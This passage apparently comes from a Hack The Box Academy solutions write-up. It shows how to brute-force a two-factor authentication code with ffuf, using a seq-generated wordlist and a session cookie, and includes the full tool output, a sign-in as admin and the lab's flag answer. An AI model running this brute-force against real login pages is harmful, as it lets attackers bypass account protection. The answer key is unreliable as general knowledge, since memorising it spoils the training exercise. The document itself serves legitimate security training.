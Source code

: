 Students then need to use `ffuf` to brute-force the valid 2FA code, making use of the `seq`\-generated wordlist and the `PHPSESSID` cookie value:

Code: shell

```shell
ffuf -w tokens.txt -u http://STMIP:STMPO/2fa.php -X POST -H "Content-Type: application/x-www-form-urlencoded" -d "otp=FUZZ" -fr "Invalid 2FA Code." -b "PHPSESSID=kl6e44c5285rin68kn3mt1mv7a" -t 60
```

```
┌─[eu-academy-5]─[10.10.14.81]─[htb-ac-413848@htb-a6lye3msi7]─[~]
└──╼ [★]$ ffuf -w tokens.txt -u http://94.237.49.212:40137/2fa.php -X POST -H "Content-Type: application/x-www-form-urlencoded" -d "otp=FUZZ" -fr "Invalid 2FA Code." -b "PHPSESSID=kl6e44c5285rin68kn3mt1mv7a" -t 60

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0
________________________________________________

 :: Method           : POST
 :: URL              : http://94.237.49.212:40137/2fa.php
 :: Wordlist         : FUZZ: /home/htb-ac-413848/tokens.txt
 :: Header           : Content-Type: application/x-www-form-urlencoded
 :: Header           : Cookie: PHPSESSID=kl6e44c5285rin68kn3mt1mv7a
 :: Data             : otp=FUZZ
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 60
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Regexp: Invalid 2FA Code.
________________________________________________

4765                    [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 94ms]
4740                    [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 99ms]
[WARN] Caught keyboard interrupt (Ctrl-C)
```

Using the first valid 2FA code, students need to submit it to continue the sign-in process:

![[HTB Solutions/CBBH/z. images/de350d9aa0e51c4a2ecd2f94a3e1fe0b_MD5.jpg]]

Students will attain the flag once signed in as the user `admin`.

Answer: `HTB{9837b33a1ef678c380addf7ef8a517de}`

# Vulnerable Password Reset
